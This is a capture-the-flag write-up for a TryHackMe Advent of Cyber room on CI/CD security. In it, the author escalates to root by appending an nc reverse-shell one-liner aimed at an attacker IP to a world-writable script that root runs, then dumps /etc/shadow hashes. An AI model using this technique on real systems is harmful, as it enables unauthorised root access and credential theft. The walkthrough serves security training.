





## Day 14

> McDev - the head of the dev team, sends an alarming email stating that they're unable to update the best festival company's external web application. Without this update, no one can view the Best Festival Company's plan. The dev team has been using a CI/CD server to automatically push out updates to the server but the CI/CD server has been compromised. Can you help them get their server back?

CI/CD is Continuous Integration/Continuous Delivery, a way of doing software dev that encourages automated testing and deploying of new changes. This stuff can be great, detecting errors in how code functions or performs and automatically preventing bad changes getting pushed to the final product or anywhere it could disrupt service. However, it also has a few pitfalls, like:

1. What does a "bad" change look like? How you write your tests is crucial.
2. Devs have to take care not to become reliant on the CI/CD pipeline to push back against them instead of being meticulous while they're writing code.
3. The pipeline (i.e. the automated workflow) increases your attack surface.

We're especially interested in the last one today. Let's start by running `ffuf` against the server to see what's there:

    ffuf -c -u http://10.10.224.42/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -e .php,.txt -ic -t 200 

We see two folders:

    warez                   [Status: 200, Size: 606, Words: 78, Lines: 17]
    admin                   [Status: 200, Size: 363, Words: 36, Lines: 15]

Browsing to http://10.10.224.42/warez we see the Grinch is running his own CI/CD app. It mentions a page where files will get listed. Let's try http://10.10.224.42/admin  

This looks like the one. Four text files. Let's SSH into the machine with the credentials TryHackMe have given us today:

    mcskidy:Password1

Once we're in, let's `cd /var/www/html` to get to the web root. A quick `ls -lah` shows us the contents:

    drwxr-xr-x 2 root root 4.0K Nov 11 20:12 .
    drwxr-xr-x 3 root root 4.0K Nov 11 05:59 ..
    -rw-r--r-- 1 root root 179K Nov 11 06:08 Le_Me.png
    -rw-r--r-- 1 root root  363 Nov 11 11:58 admin
    -rw-r--r-- 1 root root  169 Nov 11 11:46 index.html
    -rw-r--r-- 1 root root   46 Dec 14 21:10 ls.html
    -rw-r--r-- 1 root root  606 Nov 11 12:36 warez

This looks like the site. Let's `ls -lah` the /home directory to see if we can see inside the Grinch's home folder:

    mcskidy@ip-10-10-224-42:/var/www/html$ ls -lah /home
    total 24K
    drwxr-xr-x  6 root      root      4.0K Nov 11 08:27 .
    drwxr-xr-x 23 root      root      4.0K Dec 14 20:55 ..
    drwxr-xr-x  5 mcskidy   mcskidy   4.0K Nov 11 08:03 mcskidy
    drwxr-xr-x  2 pepper    pepper    4.0K Nov 11 08:27 pepper
    drwxr-xr-x  7 thegrinch thegrinch 4.0K Nov 11 19:50 thegrinch
    drwxr-xr-x  5 ubuntu    ubuntu    4.0K Nov 11 05:52 ubuntu

The last three characters in the leftmost column are what we're looking for. That's the permissions that "everyone" has. It's got "r-x" meaning everyone can read inside the folder but can't write to it (otherwise there'd be a 'w' in the middle.)  

Inside there are two interesting folders: loot and scripts. "Loot" we know the contents of from the website, it's four text files. "scripts" has four .sh files but we only have permission to read one of them.  

    -rwx------ 1 root      root       286 Nov 11 20:03 check.sh
    -rwx------ 1 root      root        58 Nov 11 09:00 cleanup.sh
    -rwxrwxrwx 1 root      root        61 Nov 11 19:56 loot.sh
    -rwx------ 1 root      root         0 Nov 11 07:58 test.sh

Let's check it out:

    mcskidy@ip-10-10-224-42:/home/thegrinch/scripts$ cat loot.sh
    #!/bin/bash

    ls /home/thegrinch/loot > /var/www/html/ls.html

Okay, pretty simple. It's just listing the files in the loot folder and writing that output to ls.html (the box with the filenames in it on the website.) From here, usually I'd start looking at the permissions on the loot folder to see if we could move a malicious file in there. That way when the loot.sh script ran and copied the output of `ls`, our own file would get moved to the web root and we could access it, possibly elevating our privileges from there. Initially I thought if PHP was running, we could try naming a file in such a way that it'd inject PHP code into the page.  

Oh, but look at those loot.sh permissions. "Everyone" has read, write, and execute permissions. We can change this script to do whatever we want. And because it's run by root, we can use it to read files we don't have access to by getting the script to copy them onto the website.  

In TryHackMe's walkthrough, we could copy /etc/shadow onto the website, revealing some password hashes that we could crack. It also suggests changing the script to copy the other scripts in the folder that we can't read. That way we might be able to find another way to escalate our privileges. Tank?  

We have write access to a script run by root, let's go straight to root.  

First we'll copy a reverse shell one-liner from revshells.com:

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.4.22.22 443 >/tmp/f

And add that below the initial command in loot.sh so now it looks like:

    #!/bin/bash

    ls /home/thegrinch/loot > /var/www/html/ls.html
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.4.22.22 443 >/tmp/f

Now we start a listener on our attacker:

    nc -vlnp 443

And wait a minute. Once the script runs to update ls.html, it also runs our command and...

We get a root shell on our listener. Now let's answer today's questions.  

> How many scripts do you see in the /home/thegrinch/scripts folder?

4. In case you're wondering what the others do:

check.sh checks for a file called "remindme.txt" in the loot folder. If it exists, it'd echo "ELFSareFAST" to pass.html in the web root, which is the Grinch's password. It's apparently his "Secret password reminderr script". Not great.  

cleanup.sh just removes the files involved in the last script's operation.  

And test.sh is completely empty.  

> What are the five characters following $6$G in pepper's password hash?

We can get this from /etc/shadow. There are three hashes:  

    thegrinch:$6$iiajscL7$7YgS0mCSs8ROHgS/4VP1itLix.T7onR26n4gdHFNAYnF/jVY7N4No11Yuy2RtLwXxJE3Vzl6zBdXXu5GUBJCj0:18942:0:99999:7:::
    mcskidy:$6$g81UcX1e$az/mXtNiOt9tMDb6lixDN3c1yH2GhcJVlAIWYB/WYNgujmxHafZdhD91ppxB.x7RIkH9DbpS6XQxe0piA2p2L1:18942:0:99999:7:::
    pepper:$6$GZUP42Y2$QYDESrTO9T517RDzR6cGXOANA/H4For7odahhn/DUdeWfEXtG9ZLHnZl4PLbfm8WF0GRB4ti9ij6w0NwBPunI/:18942:0:99999:7:::

So the first five in pepper's hash are: ZUP42  

And finally...  

> What is the content of the flag.txt file on the Grinch's user’s desktop?

    cat /home/thegrinch/Desktop/flag.txt
    DI3H4rdIsTheBestX-masMovie! 

(It's not; it's Kiss Kiss Bang Bang.)  